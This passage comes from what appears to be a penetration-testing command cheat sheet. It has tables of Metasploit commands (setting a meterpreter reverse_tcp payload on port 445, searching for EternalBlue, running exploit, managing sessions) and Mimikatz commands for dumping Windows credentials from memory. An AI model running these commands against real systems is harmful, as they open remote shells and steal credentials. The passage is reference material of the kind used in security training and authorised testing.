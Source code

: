     <tr>
      <td><code>set RPORT [port]</code></td>
      <td><code>set RPORT 445</code></td>
      <td>Sets the target port.</td>
    </tr>
    <tr>
      <td><code>set PAYLOAD [payload]</code></td>
      <td><code>set PAYLOAD windows/x64/meterpreter/reverse_tcp</code></td>
      <td>Specifies the payload to use.</td>
    </tr>
    <tr>
      <td><code>exploit</code></td>
      <td><code>exploit</code></td>
      <td>Executes the loaded module against the target.</td>
    </tr>
    <tr>
      <td><code>sessions -l</code></td>
      <td><code>sessions -l</code></td>
      <td>Lists active sessions.</td>
    </tr>
    <tr>
      <td><code>sessions -i [id]</code></td>
      <td><code>sessions -i 1</code></td>
      <td>Interacts with a specific session (session ID 1).</td>
    </tr>
    <tr>
      <td><code>back</code></td>
      <td><code>back</code></td>
      <td>Returns to module selection from the current context.</td>
    </tr>
    <tr>
      <td><code>search [term]</code></td>
      <td><code>search eternalblue</code></td>
      <td>Searches for modules matching the given term.</td>
    </tr>
  </tbody>
</table>

### Mimikatz
<table border="1" cellspacing="0" cellpadding="4">
  <thead>
    <tr>
      <th>Command/Flag</th>
      <th>Syntax Example</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><code>mimikatz</code></td>
      <td><code>mimikatz.exe</code></td>
      <td>Launches Mimikatz for Windows credential dumping.</td>
    </tr>
    <tr>
      <td><code>privilege::debug</code></td>
      <td><code>privilege::debug</code></td>
      <td>Elevates privileges for credential extraction.</td>
    </tr>
    <tr>
      <td><code>sekurlsa::logonpasswords</code></td>
      <td><code>sekurlsa::logonpasswords</code></td>
      <td>Dumps credentials from memory.</td>
    </tr>